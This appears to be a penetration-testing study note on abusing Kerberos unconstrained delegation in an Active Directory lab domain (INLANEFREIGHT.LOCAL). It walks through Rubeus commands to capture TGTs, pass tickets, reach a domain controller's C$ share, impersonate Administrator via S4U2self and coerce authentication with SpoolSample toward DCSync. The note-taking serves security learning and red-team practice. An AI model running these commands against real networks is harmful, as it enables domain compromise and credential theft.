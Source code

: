 # Main Idea of Attack
We are waiting users or forcing computers to authenticate to us, that enable us to extract the TGT ticket that would be used in whatever we want to. 

# Key prerequisites 
(what you need to exploit)
you  need one of these:
- **Control of the machine process or machine account** that is trusted for unconstrained delegation (i.e., **administrative** or SYSTEM access to the server where users authenticate), **or**
- **Control of the service account credentials** in case the SPN is registered to a domain account (and you can act as that account on the host).
# Attack Targets
- Target Domain cotrollers, so you can do `DCsync` attack.
- Target other computers in AD, so you can access other services to elevate your privileges

## Target DC
If conditions are meet and then a Domain Administrator subsequently logs in, we will be able to extract their TGT and use it to move laterally and compromise other machines, including Domain Controllers. [Rubeus](https://github.com/GhostPack/Rubeus) is the go-to tool for this attack. As a local administrator, Rubeus can be run to monitor stored tickets. If a TGT is found within a TGS ticket, Rubeus will display it to us.
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

A few moments later, `Sarah Lafferty` connects to the compromised server. Rubeus retrieves Sarah's copy of the TGT that was embedded in her TGS ticket and displays it to us encoded in base64
```powershell
[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 8/14/2020 11:06:40 AM UTC - Found new TGT:

  User                  :  sarah.lafferty@INLANEFREIGHT.LOCAL
  StartTime             :  8/14/2020 4:06:37 AM
  EndTime               :  8/14/2020 2:06:37 PM
  RenewTill             :  8/21/2020 4:06:37 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFmTCCBZWgAwIBBaEDAgEWooIEgjCCBH5hggR6MIIEdqADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQsMIIEKKADAgESoQMCAQKiggQaBIIEFr7cTE+mYOQsYF69H0dnaQwX2Iy/dB0k91uEBGQh/Dk0lm12PzkVgX<SNIP>
```

So we will use this TGT to access the Domain Controller's `CIFS` service, for example. The `/ptt` option/flag is used to pass the received ticket into memory so that it can be used for future requests.
```powershell
.\Rubeus.exe asktgs /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /service:cifs/dc01.INLANEFREIGHT.local /ptt
```
Once we have the TGS or the TGT we can effectively list the contents of the Domain Controller file system as shown in the following command.
```
dir \\dc01.inlanefreight.local\c$
```

we can also use the [renew action](https://github.com/GhostPack/Rubeus#renew) to get a brand new TGT instead of a TGS ticket:
```powershell
.\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE<SNIP>LkxPQ0FM /ptt
```


We could also get a TGS ticket for the `LDAP` service and ask for synchronization with the DC to get all the users' password hashes.

Use [SpoolSample PoC](https://github.com/leechristensen/SpoolSample) or `coarce` to force other computers to authenticate to you, so you can extract the hash.

## Target other computers/users
Other computers can't do DCsync, but they are valuble objects that we should give attention to. We can request their TGS to access other resources in AD.

If the target computer is not a domain controller, or if we want to execute attacks other than `DCSync`, we can use `S4U2self` to obtain a Service Ticket on behalf of any user we want to impersonate.
With the ticket captured from `DC01` using `Rubeus monitor` and `SpoolSample` we can use `Rubeus s4u /self` to forge a service ticket for any service. Let's create a ticket to connect through SMB using the `CIFS` service. We will need to use `Rubeus s4u /self`, set the alternative service to `CIFS`, and use the ticket we have:
```powershell
.\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.inlanefreight.local /ptt /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCB<SNIP>
```